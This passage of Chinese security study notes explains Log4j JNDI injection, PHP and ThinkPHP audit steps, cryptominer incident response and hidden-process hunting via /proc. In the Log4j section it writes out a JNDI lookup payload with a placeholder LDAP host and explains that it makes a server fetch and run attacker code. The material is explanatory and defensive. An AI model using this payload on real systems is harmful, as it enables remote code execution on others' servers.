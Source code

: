  jdk将从url指定的路径下载一段字节流，并将其反序列化为Java对象，作为jndi返回。反序列化过程中，即会执行字节流中包含的程序。

 因此，如果攻击者能够控制日志打印的内容，就可以使目标服务器从攻击者指定的任意url地址下载代码字节流，攻击者在字节流中附带的代码就会在目标服务器上执行。

 那么问题来了，攻击者如何控制服务器上记录的日志内容呢？

 非常简单！ 大部分web服务程序都会对用户输入进行日志记录。例如：用户访问了哪些url，有哪些关键的输入等，都会被作为参数送到log4j中，我们在这些地方写上`${jndi:ldap://xxx.dnslog.cn}`就可以使web服务从`xxx.dnslog.cn`下载字节流了。

总结一下感觉就是触发了jndi注入，jndi注入常用的是通过rmi和ldap（轻型目录访问协议）两种服务（配合${}进行执行）



## 0x17.PHP代码审计思路  

首先看权限控制块（能否水平越权或者垂直越权）

再看控制块（未授权，无鉴权，鉴权绕过）

追踪参数，参数是否可控（注入等）

检测敏感函数（反序列化攻击）

存在注入的地方是否进行了处理

存储信息是否采用了相关加密处理

密码规则，存放位置等

### 0x18.ThinkPHP框架  

thinkphp是一个mvc框架，即模型，视图，控制器，使用thinkphp框架开发的项目主要审计**模型和控制器文件**

![XtRdD.png](https://i.imgs.ovh/2023/10/12/XtRdD.png)



## 0x19.给你一个日志，你如何分析，应急情况如何检查，比如查挖矿病毒等  

关于日志分析，首先是查看日志的记录，分析从什么时间开始日志出现异常，根据日志的相关信息来进行分析出现了什么样的问题，结合其他日志，如访问日志等，分析出引发相关日志的进程或操作，找到相关进程，找到记录该进程的相关信息，分析是什么原因引发的问题，溯源ip等。

如果中挖矿，首先对相关设备进行一个快照，快照之后根据影响程度来判断该不该先杀该进程，如果杀不掉该怎么办？杀的掉先杀，根据快照找日志相关记录，分析时间，进程，lsof查该进程涉及了多少文件，对这些文件逐一检查，看哪个中了挖矿，定位其矿池等（netstat，lsof查相关连接ip），清楚和修复，针对相关问题做升级，杀软升级，更新补丁等

一般针对无法删除的文件等，用chattr命令解除相关限制即可

## 0x20.如何查找隐藏进程  

#### 前言  

进程是执行程序的过程，类似于按照图纸，真正去盖房子的过程。

同一个程序可以执行多次，每次都可以在内存中开辟独立的空间来装载，从而产生多个进程。不同的进程还可以拥有各自独立的IO接口。操作系统的一个重要功能就是为进程提供方便，比如说为进程分配内存空间，管理进程的相关信息等等，就好像是为我们准备好了一个精美的地址。

进程信息是proc目录下动态生成，每个动态创建的进程ID号下面详细的记录了关于该进程的fd,mem,io,cpuset等进程信息。

Linux 内核提供了一种通过 /proc 文件系统，在运行时访问内核内部数据结构、改变内核设置的机制。proc文件系统是一个伪文件系统，它只存在内存当中，而不占用外存空间。
